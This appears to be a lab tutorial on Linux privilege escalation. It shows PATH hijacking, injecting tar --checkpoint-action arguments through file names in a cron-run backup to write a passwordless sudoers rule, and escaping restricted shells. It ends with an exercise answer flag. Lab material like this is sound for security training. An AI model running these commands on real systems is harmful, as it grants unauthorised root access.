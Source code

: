 # 🍯 Environment-based Privilege Escalation

[PATH](http://www.linfo.org/path\_env\_var.html) is an environment variable that specifies the set of directories where an executable can be located. An account's PATH variable is a set of absolute paths, allowing a user to type a command without specifying the absolute path to the binary.

```shell-session
echo $PATH
```

Creating a script or program in a directory specified in the PATH will make it executable from any directory on the system.

Adding `.` to a user's PATH adds their current working directory to the list. For example, if we can modify a user's path, we could replace a common binary such as `ls` with a malicious script such as a reverse shell. If we add `.` to the path by issuing the command `PATH=.:$PATH` and then `export PATH`, we will be able to run binaries located in our current working directory by just typing the name of the file (i.e. just typing `ls)`

```shell-session
htb_student@NIX02:~$ PATH=.:${PATH}
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH

.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

```shell-session
htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls

PATH ABUSE!!
```

## Wildcard Abuse

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions.\


<table data-header-hidden><thead><tr><th width="143"></th><th></th></tr></thead><tbody><tr><td><strong>Character</strong></td><td><strong>Significance</strong></td></tr><tr><td><code>*</code></td><td>An asterisk that can match any number of characters in a file name.</td></tr><tr><td><code>?</code></td><td>Matches a single character.</td></tr><tr><td><code>[ ]</code></td><td>Brackets enclose characters and can match any single one at the defined position.</td></tr><tr><td><code>~</code></td><td>A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.</td></tr><tr><td><code>-</code></td><td>A hyphen within brackets will denote a range of characters.</td></tr></tbody></table>

&#x20;the `tar` command, a common program for creating/extracting archives. In the man of the tar command we can see interesting stuff ->

```shell-session
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.)

Let's say we have a cron job, which is set up to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`.

```shell-session
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

Then once the cronjob runs we can look at our new sudo privileges:

```shell-session
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

## Escaping Restricted Shells

A restricted shell is a type of shell that limits the user's ability to execute commands. In a restricted shell, the user is only allowed to execute a specific set of commands or only allowed to execute commands in specific directories.\
Some common examples of restricted shells include the `rbash` shell in Linux and the "Restricted-access Shell" in Windows.

* [Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html\_node/The-Restricted-Shell.html) (`rbash`) is a restricted version of the Bourne shell, a standard command-line interpreter in Linux which limits the user's ability to use certain features of the Bourne shell, such as changing directories, setting or modifying environment variables, and executing commands in other directories.
* [Restricted Korn shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command) (`rksh`) is a restricted version of the Korn shell, another standard command-line interpreter. The `rksh` shell limits the user's ability to use certain features of the Korn shell, such as executing commands in other directories, creating or modifying shell functions, and modifying the shell environment.
* [Restricted Z shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html) (`rzsh`) is a restricted version of the Z shell and is the most powerful and flexible command-line interpreter. The `rzsh` shell limits the user's ability to use certain features of the Z shell, such as running shell scripts, defining aliases, and modifying the shell environment.

### Escaping

Let's imagine the shell allows users to execute commands by passing them as arguments to a built-in command. In that case, it may be possible to escape from the shell by injecting additional commands into the argument.

Maybe the shell only allows us to execute the `ls` command with a specific set of arguments, such as `ls -l` or `ls -a`, but it does not allow us to execute any other commands. In this situation, we can use command injection to escape from the shell by injecting additional commands into the argument of the `ls` command.

```shell-session
ElFelixi0@htb[/htb]$ ls -l `pwd` 
```

* Another method for escaping from a restricted shell is to use command substitution. This involves using the shell's command substitution syntax to execute a command.
* In some cases, it may be possible to escape from a restricted shell by using command chaining. We would need to use multiple commands in a single command line, separated by a shell metacharacter, such as a semicolon (`;`) or a vertical bar (`|`), to execute a command.
* For escaping from a restricted shell to use environment variables involves modifying or creating environment variables that the shell uses to execute commands that are not restricted by the shell. For example, if the shell uses an environment variable to specify the directory in which commands are executed, it may be possible to escape from the shell by modifying the value of the environment variable to specify a different directory.
* In some cases, it may be possible to escape from a restricted shell by using shell functions. For this we can define and call shell functions that execute commands not restricted by the shell. Let us say, the shell allows users to define and call shell functions, it may be possible to escape from the shell by defining a shell function that executes a command.

_**Use different approaches to escape the restricted shell and read the flag.txt file. Submit the contents as the answer.**_

```
htb-user@ubuntu:~$ echo "$(<flag.txt )"
HTB{35c4p3_7h3_r3stricted_5h311}
```
